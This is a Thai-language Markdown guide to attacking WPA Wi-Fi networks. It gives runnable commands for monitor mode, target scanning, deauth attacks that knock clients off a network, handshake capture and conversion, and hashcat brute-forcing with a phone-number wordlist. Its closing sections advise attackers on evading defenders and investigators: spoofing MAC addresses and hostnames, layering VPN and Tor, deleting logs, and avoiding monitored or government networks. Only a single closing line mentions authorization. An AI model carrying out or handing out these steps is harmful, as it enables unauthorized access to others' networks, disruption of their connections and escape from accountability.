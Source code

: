 # 🔥 Wi-Fi Attack Lab + Red Team Survival Guide (Markdown)

## 🧭 สารบัญ
- [ภาพรวม Lab](#ภาพรวม-lab)
- [เครื่องมือที่ใช้](#เครื่องมือที่ใช้)
- [การตั้งค่าอะแดปเตอร์ให้พร้อมใช้งาน](#การตั้งค่าอะแดปเตอร์ให้พร้อมใช้งาน)
- [การปิด NetworkManager และวิธีกลับมาเปิด](#การปิด-networkmanager-และวิธีกลับมาเปิด)
- [การสแกน Wi-Fi และค้นหาเป้าหมาย](#การสแกน-wi-fi-และค้นหาเป้าหมาย)
- [การดักจับ Handshake](#การดักจับ-handshake)
- [การยิง deauth (ไล่ client ออกเพื่อดัก handshake)](#การยิง-deauth-ไล่-client-ออกเพื่อดัก-handshake)
- [การแปลงไฟล์ .cap เป็น .hccapx / .22000](#การแปลงไฟล์-cap-เป็น-hccapx--22000)
- [การ Brute-force ด้วย Hashcat บน Windows](#การ-brute-force-ด้วย-hashcat-บน-windows)
- [เทคนิคพรางตัวสำหรับ Attacker (Red Team)](#เทคนิคพรางตัวสำหรับ-attacker-red-team)
- [แนวทางการหลบการตามรอยจาก Blue Team](#แนวทางการหลบการตามรอยจาก-blue-team)
- [การกลับสู่โหมด Managed Mode](#การกลับสู่โหมด-managed-mode)

---

## 🧪 ภาพรวม Lab

- ใช้ Kali Linux เป็นเครื่องโจมตี (VM หรือเครื่องจริง)
- ใช้ USB Wi-Fi Adapter ที่รองรับ Monitor Mode & Packet Injection เช่น RTL8812AU
- เป้าหมาย: ดัก Handshake แล้ว Brute-force หา Password

---

## 🛠 เครื่องมือที่ใช้

| เครื่องมือ | หน้าที่ |
|------------|---------|
| `airmon-ng` | เปิด/ปิดโหมด monitor, ตรวจสอบ process ที่รบกวน |
| `airodump-ng` | สแกน Access Point และ Client |
| `aireplay-ng` | ยิง deauth (ไล่ Client ออก) |
| `hcxpcapngtool` | แปลง .cap → .22000 (ใช้แทน cap2hccapx) |
| `hashcat` | Brute-force password |
| `nmcli`, `iwconfig` | จัดการการ์ด Wi-Fi |
| `ip`, `ifconfig` | จัดการ IP, เปิด/ปิดอินเทอร์เฟส |

---

## 📡 การตั้งค่าอะแดปเตอร์ให้พร้อมใช้งาน

ในการดักจับ packet หรือยิง deauth จำเป็นต้องใช้ Wi-Fi adapter ที่สามารถเข้าสู่ **Monitor Mode** ได้ โดยมี 2 วิธีหลัก:

### 🔧 วิธีที่ 1: ตั้งค่าด้วย `ip` และ `iw`

```bash
sudo ip link set wlan1 down                          # ปิดการทำงานชั่วคราว
sudo iw dev wlan1 set type monitor                   # เปลี่ยนโหมดเป็น monitor
sudo ip link set wlan1 up                            # เปิดกลับ
```

### 🧪 วิธีที่ 2: ใช้ `airmon-ng` (สะดวกและอัตโนมัติ)

```bash
sudo airmon-ng start wlan1
```

> ✅ หลังจากสั่ง `start` ชื่ออินเทอร์เฟสอาจเปลี่ยนเป็น `wlan1mon` (ขึ้นอยู่กับ driver)

---

### ✅ ความสามารถของ `airmon-ng` เพิ่มเติม

`airmon-ng` ไม่ได้แค่เปิด monitor mode แต่ยังช่วยดูแลสภาพแวดล้อมด้วย เช่น:

| คำสั่ง | ความสามารถ |
|--------|-------------|
| `airmon-ng` | แสดงอะแดปเตอร์ Wi-Fi ทั้งหมด |
| `airmon-ng start wlan1` | เปิด monitor mode |
| `airmon-ng stop wlan1mon` | ปิด monitor mode |
| `airmon-ng check` | ตรวจสอบว่า process ใดอาจรบกวน monitor mode |
| `airmon-ng check kill` | ฆ่า process ที่รบกวน เช่น `NetworkManager`, `wpa_supplicant` |

📌 **ตัวอย่างผลลัพธ์จาก `check`:**
```
Found 3 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!

PID     Name
1234    NetworkManager
2345    wpa_supplicant
```

✅ ใช้ `airmon-ng check kill` เพื่อจัดการ:

```bash
sudo airmon-ng check kill
```

> ⚠️ การ kill NetworkManager จะทำให้ Wi-Fi ปกติหลุด ต้องเปิดใหม่ภายหลัง

---

🎯 **สรุป:**  
- ถ้าใช้ `airmon-ng` → ได้ทั้งเปิด monitor mode และเคลียร์ process อัตโนมัติ  
- ถ้าใช้ `iw` / `ip` → ต้องเช็ค process เอง และอย่าลืม `set type managed` หากจะกลับมาใช้เน็ตปกติ

---

## 📴 การปิด NetworkManager และวิธีกลับมาเปิด

```bash
# ปิด
sudo systemctl stop NetworkManager.service
sudo systemctl disable NetworkManager.service

# เปิดกลับ
sudo systemctl enable NetworkManager.service
sudo systemctl start NetworkManager.service
```

---

## 🔍 การสแกน Wi-Fi และค้นหาเป้าหมาย

```bash
sudo airodump-ng wlan1
```

หากต้องการเจาะจง:
```bash
sudo airodump-ng --bssid <BSSID> --channel <CH> -w capture wlan1
```

---

## 🕵️ การดักจับ Handshake

1. ใช้ `airodump-ng` กับ `-w` เพื่อเก็บ `.cap`
2. รอให้ Client เชื่อมต่อหรือยิง deauth ให้หลุด
3. เช็คว่ามี `WPA handshake` มุมขวาบน

---

## 💥 การยิง deauth (ไล่ client ออกเพื่อดัก handshake)

```bash
sudo iwconfig wlan1 channel <CH>
sudo aireplay-ng --deauth 10 -a <BSSID> -c <Client MAC> wlan1
```

📌 **Note:** หากยิงแล้ว channel เพี้ยน ต้อง `Ctrl+C` ปิด `airodump-ng` ก่อน แล้วตั้ง channel ใหม่

---

## 🔄 การแปลงไฟล์ .cap เป็น .hccapx / .22000

### 📥 ติดตั้งเครื่องมือแปลง
```bash
sudo apt install hcxtools -y
```

### 🧪 คำสั่งแปลงไฟล์
```bash
# .cap → .22000
hcxpcapngtool -o boonta.22000 boonta.cap
```

> ⚠️ ใช้แทน cap2hccapx ที่เลิกใช้งานแล้ว

---

## 🧠 การ Brute-force ด้วย Hashcat บน Windows

```powershell
.\hashcat.exe -m 22000 -a 0 "D:\boonta.22000" "D:\084_phone.txt" -O --force
```

เช็คผล:
```powershell
.\hashcat.exe -m 22000 --show D:\boonta.22000
```

---

## 🕶 เทคนิคพรางตัวสำหรับ Attacker (Red Team)

| เทคนิค | รายละเอียด |
|--------|------------|
| 🧥 เปลี่ยน MAC | `macchanger -r wlan1` |
| 🪪 เปลี่ยน hostname | `hostnamectl set-hostname ghostmachine` |
| 🛡 ใช้ VPN + TOR | ซ้อนหลายชั้นเพื่อพราง IP จริง |
| 💾 ใช้ Live USB / VM | ไม่ให้มี Log บนเครื่อง |
| 🔒 ไม่ใช้ Wi-Fi บ้าน | หลีกเลี่ยง Wi-Fi ที่มี log |
| 🧽 ลบ Log | เช่น `.zsh_history`, `dhclient.leases` |
| 🚫 หลีกเลี่ยง Wi-Fi ที่มี IDS | อุปกรณ์บางรุ่นแจ้งเตือนการยิง deauth |

---

## 🚔 แนวทางการหลบการตามรอยจาก Blue Team

- เปลี่ยน MAC และ hostname ทุกครั้ง
- อย่าใช้ SSID หรือ Wi-Fi ที่ลงทะเบียนชื่อตัวเอง
- หลีกเลี่ยงอแดปเตอร์ภายใน (อาจโดน trace)
- หลีกเลี่ยงการยิง Wi-Fi หน่วยงานรัฐหรือ ISP

---

## 🔁 การกลับสู่โหมด Managed Mode (ใช้งานเน็ตปกติ)

```bash
# 1. ปิดโหมด monitor
sudo airmon-ng stop wlan1

# 2. ตั้งกลับเป็น managed
sudo ip link set wlan1 down
sudo iw dev wlan1 set type managed
sudo ip link set wlan1 up

# 3. เปิด NetworkManager (ถ้าปิดไว้)
sudo systemctl start NetworkManager.service
```

---

📌 **หมายเหตุ:** ทุกขั้นตอนต้องกระทำบน Wi-Fi ที่คุณมีสิทธิ์และเพื่อการศึกษาเท่านั้น!
